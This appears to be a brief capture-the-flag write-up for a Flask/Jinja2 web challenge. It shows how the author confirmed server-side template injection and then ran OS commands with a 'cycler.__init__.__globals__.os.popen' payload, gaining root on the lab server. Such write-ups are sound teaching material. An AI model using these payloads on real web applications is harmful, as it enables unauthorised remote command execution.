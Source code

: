 once i noted that it uses Flask/jinja2 i thought of the SSTI, tested it and was confirmed
```bash
http://178.62.20.33:31990/{{ 7*7 }}
```
![image](https://user-images.githubusercontent.com/72671239/220067079-ec6adcc4-67d5-4a21-8dd4-f1c99108e9ec.png)

went through payload-all-things and got a payload that tests the os module to execute commands on the server
![image](https://user-images.githubusercontent.com/72671239/220065034-6b513ceb-a701-4b07-991a-cdf1766c439f.png)
![image](https://user-images.githubusercontent.com/72671239/220066582-9eda2518-1901-47fd-b42d-48f780210f83.png)
this indicates that we have root privligaes on the system, and also that the os module is enabled in this webapp, so in place of the 'id' command, we can execute any command

```bash
http://178.62.20.33:31990/{{ cycler.__init__.__globals__.os.popen('ls').read() }}
```
![image](https://user-images.githubusercontent.com/72671239/220067663-29f24b8a-d612-41ae-8e84-74205af1ef57.png)
![image](https://user-images.githubusercontent.com/72671239/220068034-9df97d4f-9167-4d7d-8e1a-de529e02abba.png)

you can understand the ins and outs of this payload using this file [SSTI payload](https://github.com/olaayman999/HTB/blob/main/web-chsllenges/Templated/SSTI.md)



